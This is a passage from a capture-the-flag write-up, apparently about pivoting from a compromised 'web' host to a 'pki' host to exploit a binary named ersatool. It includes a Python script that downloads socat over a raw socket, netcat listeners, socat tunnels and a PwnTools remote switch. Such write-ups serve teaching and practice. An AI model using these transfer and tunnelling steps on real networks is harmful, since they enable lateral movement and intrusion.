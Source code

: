     import socket

    s = socket.socket()
    s.connect(('192.168.254.2', 4433))
    with open('/tmp/socat', 'wb') as f:
        data = s.recv(1024)
        while data:
            f.write(data)
            data = s.recv(1024)
    s.close()



On web I ran `/tmp/nc -lnvp 4433 < socat`. Then I ran that script, and
it go `socat` (and the MD5s matched).

On pki:



    www-data@pki:/tmp$ ./socat TCP-LISTEN:9001,reuseaddr,fork EXEC:ersatool



On web:



    www-data@web:/tmp$ ./socat tcp-listen:9001,reuseaddr,fork tcp:pki:9001



Now from my host, I can connect to the running binary:



    oxdf@parrot$ nc 172.20.0.10 9001
    # print
    print->CN=0xdf
    0xdf[!] ERR reading /opt/easyrsa/clients/0xdf.ovpn!

    print->CN=



At the top of the script, I'll add:



    if args['REMOTE']:
        p = remote('172.20.0.10', 9001)
    else:
        p = process('./ersatool')



With PwnTools, now if I add `REMOTE` as an arg, it will go remote, and
otherwise local.

One last snag was that `/dev/shm` is mounted `noexec` on pki, so I can
execute out of there. I'll switch to `/tmp` in the script by changing
that string.

I'll open a third shell to web (one has www-data shell from pki which
has `socat` serving `ersatool`, one has `socat` tunneling from my host
to pki), and start `nc` listening on 4433.
